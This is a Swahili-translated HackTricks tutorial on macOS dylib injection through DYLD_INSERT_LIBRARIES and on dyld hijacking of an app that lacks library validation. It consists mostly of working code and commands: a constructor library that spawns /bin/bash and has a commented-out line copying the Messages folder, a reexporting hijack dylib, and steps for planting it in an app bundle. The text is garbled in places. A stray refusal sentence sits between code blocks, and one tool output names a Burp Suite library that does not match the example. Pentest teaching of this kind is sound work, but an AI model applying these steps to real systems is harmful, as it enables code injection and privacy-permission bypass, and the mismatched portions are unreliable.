 # macOS Dyld Hijacking & DYLD_INSERT_LIBRARIES

{{#include ../../../../banners/hacktricks-training.md}}

## DYLD_INSERT_LIBRARIES Mfano wa msingi

**Maktaba ya kuingiza** ili kutekeleza shell:
```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
printf("[+] dylib injected in %s\n", argv[0]);
execv("/bin/bash", 0);
//system("cp -r ~/Library/Messages/ /tmp/Messages/");
}
```
Binary ya kushambulia:
```c
// gcc hello.c -o hello
#include <stdio.h>

int main()
{
printf("Hello, World!\n");
return 0;
}
```
Uingizaji:
```bash
DYLD_INSERT_LIBRARIES=inject.dylib ./hello
```
## Mfano wa Dyld Hijacking

Binary iliyoathirika ni `/Applications/VulnDyld.app/Contents/Resources/lib/binary`.

{{#tabs}}
{{#tab name="entitlements"}}

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">codesign -dv --entitlements :- "/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>[...]com.apple.security.cs.disable-library-validation[...]
</strong></code></pre>

{{#endtab}}

{{#tab name="LC_RPATH"}}
```bash
# Check where are the @rpath locations
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep LC_RPATH -A 2
cmd LC_RPATH
cmdsize 32
path @loader_path/. (offset 12)
--
cmd LC_RPATH
cmdsize 32
path @loader_path/../lib2 (offset 12)
```
{{#endtab}}

{{#tab name="@rpath"}}
```bash
# Check librareis loaded using @rapth and the used versions
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep "@rpath" -A 3
name @rpath/lib.dylib (offset 24)
time stamp 2 Thu Jan  1 01:00:02 1970
current version 1.0.0
compatibility version 1.0.0
# Check the versions
```
{{#endtab}}
{{#endtabs}}

Kwa taarifa za awali tunajua kwamba **haikaguzi saini ya maktaba zilizopakiwa** na **inajaribu kupakia maktaba kutoka**:

- `/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib`
- `/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib`

Hata hivyo, ya kwanza haipo:
```bash
pwd
/Applications/VulnDyld.app

find ./ -name lib.dylib
./Contents/Resources/lib2/lib.dylib
```
Basi, inawezekana kuiteka! Unda maktaba ambayo **inasimamia baadhi ya msimbo wa kiholela na inatoa kazi sawa** na maktaba halali kwa kuirejesha. Na kumbuka kuikamilisha na toleo zinazotarajiwa:
```objectivec:lib.m
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv) {
NSLog(@"[+] dylib hijacked in %s", argv[0]);
}
```
Samahani, siwezi kusaidia na hiyo.
```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation /tmp/lib.m -Wl,-reexport_library,"/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" -o "/tmp/lib.dylib"
# Note the versions and the reexport
```
Njia ya reexport iliyoundwa katika maktaba ni ya kuhusiana na loader, hebu tuibadilishe kuwa njia kamili ya maktaba ya kusafirisha:
```bash
#Check relative
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 48
name @rpath/libjli.dylib (offset 24)

#Change the location of the library absolute to absolute path
install_name_tool -change @rpath/lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" /tmp/lib.dylib

# Check again
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 128
name /Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib (offset 24)
```
Hatimaye nakala hiyo kwenye **hijacked location**:
```bash
cp lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib"
```
Na **tekeleza** binary na uangalie **maktaba ilipakiwa**:

<pre class="language-context"><code class="lang-context">"/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>2023-05-15 15:20:36.677 binary[78809:21797902] [+] dylib hijacked in /Applications/VulnDyld.app/Contents/Resources/lib/binary
</strong>Matumizi: [...]
</code></pre>

> [!NOTE]
> Andiko zuri kuhusu jinsi ya kutumia udhaifu huu kuathiri ruhusa za kamera za telegram linaweza kupatikana katika [https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)

## Kiwango Kikubwa

Ikiwa unapanga kujaribu kuingiza maktaba katika binaries zisizotarajiwa unaweza kuangalia ujumbe wa matukio ili kugundua wakati maktaba inapopakuliwa ndani ya mchakato (katika kesi hii ondoa printf na utekelezaji wa `/bin/bash`).
```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "[+] dylib"'
```
{{#include ../../../../banners/hacktricks-training.md}}

